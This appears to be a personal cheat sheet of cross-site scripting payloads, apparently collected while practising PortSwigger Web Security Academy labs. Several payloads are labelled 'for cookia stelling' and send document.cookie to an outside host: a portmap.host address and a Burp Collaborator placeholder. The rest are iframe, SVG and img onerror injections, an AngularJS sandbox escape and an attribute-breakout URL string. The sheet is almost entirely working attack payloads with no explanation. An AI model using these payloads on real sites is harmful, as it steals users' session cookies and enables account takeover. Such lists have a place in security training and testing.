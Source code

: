 |||||||||||||||||||||||||||||||||||||||||||||||||||||
<iframe src="javascript:var i=' ' + document.cookie; alert(i); fetch('http://pip3lee101-64604.portmap.host:64604/?sam')">


for cookia stelling
<iframe src="javascript:let i=new Image;i.src='http://pip3lee101-64604.portmap.host:64604/?lee101'+document.cookie; console.log(document.cookie);" >

<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

for cookia stelling herf
javascript:fetch('http://pip3lee101-64604.portmap.host:64604/?lee101', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});



for seperate html page
<iframe src="https://0a97007b03b5c853c0631f0600af003c.web-security-academy.net/" onload="this.src+='<img src=x onerror=print()>'"></iframe>



|||||||||||||||||||||||||||||||||||||||||||||||||||||
html entities test ===>
&#x6c;&#x65;&#x65;&#x31;&#x30;&#x31;

for anchor href inputs this payload to store <a src="javascript:alert(1)">website</a> ++++===>
javascript:alert(1)


||||||||||||||||||||||||||||||||||||||||||||||||||||||
for testing =====>
<iframe src="javascript:alert('xss');" >
"><svg onload=alert(document.cookie);>
<svg onload=alert(document.cookie);>
"onmouseover="alert('xss')
'-alert(1)-'
{{$on.constructor('alert(1)')()}}
\"-alert(1)}//
<><img src=1 onerror=alert(1)>

||||||||||||||||||||||||||||||||||||||||||||||||||||||
special url payloads =========>
&storeId="></select><img%20src=1%20onerror=alert(1)>

